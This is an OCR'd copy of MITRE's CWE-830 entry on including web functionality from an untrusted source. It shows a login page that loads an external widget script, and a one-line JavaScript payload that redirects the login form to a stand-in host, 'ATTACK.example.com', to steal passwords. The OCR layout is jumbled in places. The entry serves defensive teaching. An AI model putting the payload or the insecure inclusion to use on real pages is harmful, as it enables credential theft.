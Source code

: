 3/7/24, 3:11 PM CWE - CWE-830: Inclusion of Web Functionality from an Untrusted Source (4.14)
https://cwe.mitre.org/data/deﬁnitions/830.html 1/2
Common W eakness Enumeration
A community-developed list of SW & HW weaknesses that can become
vulnerabilities
Home Search
CWE-830: Inclusion of W eb Functionality from an Untrusted Source
Weakness ID: 830
Vulnerability Mapping: 
View customized information:
 Description
The product includes web functionality (such as a web widget) from another domain, which causes it to operate within the domain of
the product, potentially granting total access and control of the product to the untrusted source.
 Extended Description
Including third party functionality in a web-based environment is risky , especially if the source of the functionality is untrusted.
Even if the third party is a trusted source, the product may still be exposed to attacks and malicious behavior if that trusted source is
compromised, or if the code is modified in transmission from the third party to the product.
This weakness is common in "mashup" development on the web, which may include source functionality from other domains. For
example, Javascript-based web widgets may be inserted by using '' tags, which causes the
code to run in the domain of the product, not the remote site from which the widget was loaded. As a result, the included code has
access to the local DOM, including cookies and other data that the developer might not want the remote site to be able to access.
Such dependencies may be desirable, or even required, but sometimes programmers are not aware that a dependency exists.
 Relationships
 Relevant to the view "Research Concepts" (CWE-1000)
Nature Type ID Name
ChildOf 829 Inclusion of Functionality from Untrusted Control Sphere
 Relevant to the view "Architectural Concepts" (CWE-1008)
 Modes Of Introduction
Phase Note
Implementation REALIZA TION: This weakness is caused during implementation of an architectural security tactic.
 Common Consequences
Scope Impact Likelihood
Confidentiality
Integrity
AvailabilityTechnical Impact: Execute Unauthorized Code or Commands
 Demonstrative Examples
Example 1
This login webpage includes a weather widget from an external website:
This webpage is now only as secure as the external domain it is including functionality from. If an attacker compromised the external
domain and could add malicious scripts to the weatherwidget.js file, the attacker would have complete control, as seen in any XSS
weakness ( CWE-79 ).About ▼ CWE List ▼ Mapping ▼ Top-N Lists ▼ Community ▼ News ▼
ALLOWED
Abstraction: Variant
Conceptual OperationalMapping
FriendlyComplete Custom
(bad code) Example Language: HTML 
<div class="header"> Welcome!
<div id="loginBox">Please Login:
<form id ="loginForm" name="loginForm" action="login.php" method="post">
Username: <input type="text" name="username" />
<br/>
Password: <input type="password" name="password" />
<input type="submit" value="Login" />
</form>
</div>
<div id="WeatherWidget">
<script type="text/javascript" src="externalDomain.example.com/weatherwidget.js">

3/7/24, 3:11 PM CWE - CWE-830: Inclusion of Web Functionality from an Untrusted Source (4.14)
https://cwe.mitre.org/data/deﬁnitions/830.html 2/2For example, user login information could easily be stolen with a single line added to weatherwidget.js:
This line of javascript changes the login form's original action target from the original website to an attack site. As a result, if a user
attempts to login their username and password will be sent directly to the attack site.
 Memberships
Nature Type ID Name
MemberOf 1354 OWASP Top Ten 2021 Category A08:2021 - Software and Data Integrity Failures
MemberOf 1416 Comprehensive Categorization: Resource Lifecycle Management
 Vulnerability Mapping Notes
Usage: ALLOWED (this CWE ID could be used to map to real-world vulnerabilities)
Reason: Acceptable-Use
Rationale:
This CWE entry is at the V ariant level of abstraction, which is a preferred level of abstraction for mapping to the root causes of
vulnerabilities.
Comments:
Carefully read both the name and description to ensure that this mapping is an appropriate fit. Do not try to 'force' a mapping to a
lower-level Base/V ariant simply to comply with this preferred level of abstraction.
 References
[REF-778] Jeremiah Grossman. "Third-Party W eb Widget Security F AQ". < https://blog.jeremiahgrossman.com/2010/07/third-
party-web-widget-security-faq.html >. URL validated: 2023-04-07 .
 Content History
 Submissions
Submission Date Submitter Organization
2010-12-08
(CWE 1.11, 2010-12-13)CWE Content Team MITRE
 Modifications
(attack code) Example Language: JavaScript 
...Weather widget code....
document.getElementById('loginForm').action = "ATTACK.example.com/stealPassword.php";